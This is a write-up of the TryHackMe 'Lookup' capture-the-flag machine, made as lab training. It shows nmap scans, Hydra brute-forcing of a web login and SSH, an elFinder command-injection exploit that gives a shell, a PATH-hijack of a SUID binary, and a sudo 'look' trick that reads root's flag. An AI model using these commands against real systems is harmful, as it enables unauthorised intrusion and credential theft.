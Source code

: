```yaml
---
title: "Lookup"
date: 2025-03-01
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Lookup
categories: [TryHackMe, Easy]
tags: [linux, web]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lookup</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Test your enumeration skills on this boot-to-root machine.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lookup">https://tryhackme.com/room/lookup</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Lookup.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.229
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 07:28 EDT
  Nmap scan report for 10.10.180.229
  Host is up (0.040s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.180.229
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 07:29 EDT
  Nmap scan report for 10.10.180.229
  Host is up (0.053s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
  |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
  |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Did not follow redirect to http://lookup.thm
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

When accessing the website, I was redirected to `lookup.thm`, so I added it to my hosts file. After that, the website displayed a login page. I started with directory and subdomain enumeration but didn't find anything useful. 

![Login](/assets/img/tryhackme/Lookup/thm_lookup_1.jpg)

While analyzing the login process, I noticed that the error message changed when the username was correct:
```text
testusername  -> Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
admin         -> Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Since I had a likely valid username, I initiated a brute force attack using Hydra:
```bash
$ hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 07:41:18
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong password.
[80][http-post-form] host: lookup.thm   login: admin   password: [removed]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-14 07:42:04
```

Hydra detected a change in the error message with this username-password combination, but I wasn't able to log in. This made me think that the password might be correct, but the username was wrong. With this assumption, I initiated another Hydra brute force attack, but this time I brute-forced the username: 
```bash
$ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p '[removed]' lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong username or password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 07:46:54
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong username or password.
[80][http-post-form] host: lookup.thm   login: [removed]   password: [removed]
```

## Shell as www-data

Success! I was able to login, with the retrieved credentials and got redirected to another subdomain. After adding `files.lookup.thm` to my hosts file, I was able to access elFinder and checked the version number:

![Elfinder Version](/assets/img/tryhackme/Lookup/thm_lookup_2.jpg)

After researching the version number, I found the following 'PHP connector' Command Injection on <a href="https://www.exploit-db.com/exploits/46481">Exploit-DB</a>. The exploit required an image, so I downloaded a random image of a squirrel, named it `SecSignal.jpg`, and executed the exploit:
```bash
$ python2 exploit.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I then moved over to Penelope for a more comfortable shell environment.

## Privilege Escalation think

While enumerating the system, I found a file called `.passwords`, but I didn't have permission to read it. 
```bash
www-data@lookup:/home/think$ cat .passwords 
cat: .passwords: Permission denied
```

I continued enumerating for files with the SUID bit set:
```bash
www-data@lookup:/home/think$ find / -perm /4000 -type f 2>/dev/null
/usr/sbin/pwm
```

Since it wasn't a regular binary, I executed it and analyzed its behavior:
```bash
www-data@lookup:/home/think$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

It appeared that the script executed the `id` command and displayed the `.password` file for the user whose `id` returned. Since I found the `.password` under the `think` user, I created a new binary that would return the `id` output for the think user: 
```bash
www-data@lookup:/tmp$ touch id
www-data@lookup:/tmp$ echo '#!/bin/bash' > id
www-data@lookup:/tmp$ echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
www-data@lookup:/tmp$ chmod +x id
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
[...]
```

Success! I now had a list, which was likely a password list. I saved it to a file called `passwdlist` and used it to brute force SSH access for the think user:
```bash
$ hydra -l 'think' -P passwdlist ssh://10.10.180.229
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-14 08:11:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.180.229:22/
[22][ssh] host: 10.10.180.229   login: think   password: [...]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-14 08:11:50
```

The brute force was successful, and I was able to retrieve the user flag:
```bash
$ ssh think@10.10.180.229

think@lookup:~$ cat user.txt 
  3[removed]e
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
think@lookup:~$ sudo -l
  [sudo] password for think: 
  Matching Defaults entries for think on lookup:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User think may run the following commands on lookup:
      (ALL) /usr/bin/look
```
A quick search on <a href="https://gtfobins.github.io/gtfobins/look/">gftobins</a> gave me all I needed:
```bash
think@lookup:~$ LFILE=/root/root.txt
think@lookup:~$ sudo look '' "$LFILE"
  5[removed]8
```

solved! :)